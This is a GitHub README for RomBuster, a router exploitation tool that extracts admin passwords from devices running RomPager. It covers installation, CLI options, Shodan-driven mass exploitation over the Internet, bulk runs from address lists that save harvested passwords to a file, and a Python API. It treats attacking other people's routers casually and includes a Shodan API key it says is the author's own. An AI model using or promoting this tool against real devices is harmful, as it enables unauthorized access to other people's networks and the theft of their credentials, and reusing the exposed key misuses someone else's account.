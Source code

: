 # RomBuster

RomBuster is a RomPager exploitation tool that allows to disclosure network router admin password.

## Features

* Exploits vulnerabilities in most popular routers with RomPager installation such as `D-Link`, `Zyxel`, `TP-Link` and `Huawei`.
* Optimized to exploit multiple routers at one time from list with threading enabled.
* Simple CLI and API usage.

## Installation

```shell
pip3 install git+https://github.com/EntySec/RomBuster
```

## Basic usage

To use RomBuster just type `rombuster` in your terminal.

```
usage: rombuster [-h] [-t] [-o OUTPUT] [-i INPUT] [-a ADDRESS] [--api API]

RomBuster is a RomPager exploitation tool that allows to disclosure network
device admin password.

optional arguments:
  -h, --help            show this help message and exit
  -t, --threads         Use threads for fastest work.
  -o OUTPUT, --output OUTPUT
                        Output result to file.
  -i INPUT, --input INPUT
                        Input file of addresses.
  -a ADDRESS, --address ADDRESS
                        Single address.
  --api API             Shodan API key for exploiting devices over Internet.
```

### Examples

Let's hack my router with RomPager installation just for fun.

```shell
rombuster -a 192.168.2.1
```

**output:**

```shell
[*] (192.168.2.1) - connecting to router...
[*] (192.168.2.1) - accessing router rom...
[*] (192.168.2.1) - extracting admin password...
[i] (192.168.2.1) - password: SuperHardPassword999
```

Let's try to use Shodan search engine to exploit routers over Internet and save all obtained passwords to `passwords.txt`, we will use it with `-t` for fast exploitation.

```shell
rombuster -t --api PSKINdQe1GyxGgecYz2191H2JoS9qvgD -o passwords.txt
```

**NOTE:** Given Shodan API key (`PSKINdQe1GyxGgecYz2191H2JoS9qvgD`) is my PRO API key, you can use this key or your own, be free to use all our resources for free :)

**output:**

```shell
[*] Authorizing Shodan by given API key...
[+] Authorization successfully completed!
[*] Initializing thread #0...
[*] (x.x.x.x) - connecting to router...
[*] Initializing thread #1...
[*] (x.x.x.x) - connecting to router...
[*] Initializing thread #2...
[*] (x.x.x.x) - connecting to router...
[*] (x.x.x.x) - accessing router rom...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #0 completed.
[*] (x.x.x.x) - connecting to router...
[*] (x.x.x.x) - accessing router rom...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #1 completed.
[*] (x.x.x.x) - connecting to router...
[*] (x.x.x.x) - accessing router rom...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #2 completed.
```

Let's try to use opened database of routers with `-t` for fast exploitation.

```shell
rombuster -t -i routers.txt -o passwords.txt
```

**NOTE:** It will exploit all routers in `routers.txt` list by their addresses and save all obtained passwords to `passwords.txt`.

**output:**

```shell
[*] Initializing thread #0...
[*] (x.x.x.x) - connecting to router...
[*] Initializing thread #1...
[*] (x.x.x.x) - connecting to router...
[*] Initializing thread #2...
[*] (x.x.x.x) - connecting to router...
[*] (x.x.x.x) - accessing router rom...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #0 completed.
[*] (x.x.x.x) - connecting to router...
[*] (x.x.x.x) - accessing router rom...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #1 completed.
[*] (x.x.x.x) - connecting to router...
[*] (x.x.x.x) - accessing router rom...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #2 completed.
```

## RomBuster API

RomBuster also has their own Python API that can be invoked by importing RomBuster to your code:

```python
from rombuster import RomBuster
```

### Basic functions

There are all RomBuster basic functions that can be used to exploit specified router.

* `connect(host)` - Connect specified router by network address.
* `exploit(router)` - Exploit connected router.

### Examples

```python
from rombuster import RomBuster

rombuster = RomBuster()

router = rombuster.connect('192.168.2.1')
print(rombuster.exploit(router))
```

**output:**

```shell
'SuperHardPassword999'
```

## Other tools

<p>
    <a href="https://github.com/EntySec/Ghost">
        <img src="https://img.shields.io/badge/EntySec-%20Ghost-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatVenom">
        <img src="https://img.shields.io/badge/EntySec-%20HatVenom-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/Shreder">
        <img src="https://img.shields.io/badge/EntySec-%20Shreder-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatSploit">
        <img src="https://img.shields.io/badge/EntySec-%20HatSploit-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/CamOver">
        <img src="https://img.shields.io/badge/EntySec-%20CamOver-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/CamRaptor">
        <img src="https://img.shields.io/badge/EntySec-%20CamRaptor-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/membrane">
        <img src="https://img.shields.io/badge/EntySec-%20membrane-f34c79.svg">
    </a>
    <a href="https://github.com/EntySec/pwny">
        <img src="https://img.shields.io/badge/EntySec-%20pwny-448eff.svg">
    </a>
</p>

